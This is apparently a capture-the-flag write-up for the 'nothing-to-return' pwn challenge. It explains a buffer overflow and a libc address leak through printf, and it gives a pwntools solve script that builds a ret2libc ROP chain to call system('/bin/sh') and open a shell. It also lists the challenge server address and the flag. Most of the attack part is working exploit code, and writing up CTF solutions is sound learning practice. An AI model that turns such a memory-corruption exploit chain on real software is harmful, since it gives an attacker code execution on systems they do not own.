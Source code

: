 # nothing-to-return 
![challenge](challenge.png)
### Challenge:
##### Now this challenge has a binary of a very small size.
##### "The binary has no useful gadgets! There is just nothing to return to!"
##### nice try... ntr
##### Author: drec

##### Links: ```nc 34.30.126.104 5000```
##### Files: [ld-linux-x86-64.so.2](ld-linux-x86-64.so.2), [libc.so.6](libc.so.6), [nothing-to-return](nothing-to-return)

### Solution:

The challenge is similar to the first one, we have a bof on our input.
However there is no shell() function, we need to rop our way to victory.
In the binary there are no useful gadgets to popping a shell, however the binary gives us the address of printf(), which in turn gives us a leak of libc.
Knowing the address of libc we now have all the gadgets we want to our disposal, we can pop a shell with this chain:

```py
r = conn()

r.recvuntil(b"is at ")
leak = int(r.recvline()[:-1], 16)

libc.address = leak - libc.sym.printf

rop = ROP(libc)
POP_RDI = p64(rop.rdi.address)
RET = p64(0x000000000040101a)

chain = POP_RDI + p64(libc.binsh()) + RET + p64(libc.sym.system)
payload = b"A"*72 + chain

r.sendline(bstr(len(payload)))
r.sendline(payload)

r.interactive()
#uoftctf{you_can_always_return}
```

Solve script: [solve.py](solve.py)

Flag: ```uoftctf{you_can_always_return}```